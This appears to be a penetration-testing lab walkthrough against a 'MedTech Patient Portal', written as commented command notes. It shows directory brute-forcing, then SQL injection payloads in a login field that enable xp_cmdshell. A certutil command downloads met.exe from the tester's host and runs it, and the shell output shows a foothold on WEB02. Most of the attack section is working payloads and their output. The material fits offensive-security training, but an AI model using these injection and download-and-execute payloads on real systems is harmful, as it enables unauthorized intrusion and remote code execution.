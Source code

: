 # Find any directory we can use
# VM3
gobuster dir -u http://192.168.219.120 -w /home/kali/Tools/dict/SecLists-master/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
ffuf -w /usr/share/wordlists/wfuzz/general/megabeast.txt -u http://192.168.219.121/FUZZ -r
...
/about                (Status: 301) [Size: 44] [--> http://192.168.219.120/about/]
/static               (Status: 301) [Size: 46] [--> http://192.168.219.120/static/]
/assets               (Status: 301) [Size: 46] [--> http://192.168.219.120/assets/]
...
# VM4
gobuster dir -u http://192.168.219.121 -w /home/kali/Tools/dict/SecLists-master/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
ffuf -w /usr/share/wordlists/wfuzz/general/megabeast.txt -u http://192.168.219.121/FUZZ -r

# None of the directory worth to go indepth, lets proceed to the MedTech Patient Portal that we found from Make an Appointment button. 
http://192.168.219.121/login.aspx

# Lets try with the weak password admin:admin Failed :D
# Lets try with BlindSQLi
UsernameTextBox=1';EXECUTE sp_configure 'show advanced options', 1;--
UsernameTextBox=1';RECONFIGURE;--
UsernameTextBox=1';EXECUTE sp_configure 'xp_cmdshell', 1;--
UsernameTextBox=1';RECONFIGURE;--
UsernameTextBox=1';EXEC xp_cmdshell "certutil.exe -urlcache -f http://192.168.45.195:8088/met.exe C:\TEMP\met.exe";--
...
192.168.219.121 - - [28/May/2024 08:05:44] "GET /met.exe HTTP/1.1" 200 -
...
# Our https feedback with 200, means it is able to use SQLi!
# Lets listen to 8443 and establish the connection with VM3
UsernameTextBox=1';EXEC xp_cmdshell "cmd /c C:\TEMP\met.exe";--
# Go to the Metasplolit listener
C:\Windows\system32>whoami
nt service\mssql$sqlexpress
C:\Windows\system32>hostname
WEB02
# Now we identify the VM3 machine is WEB02
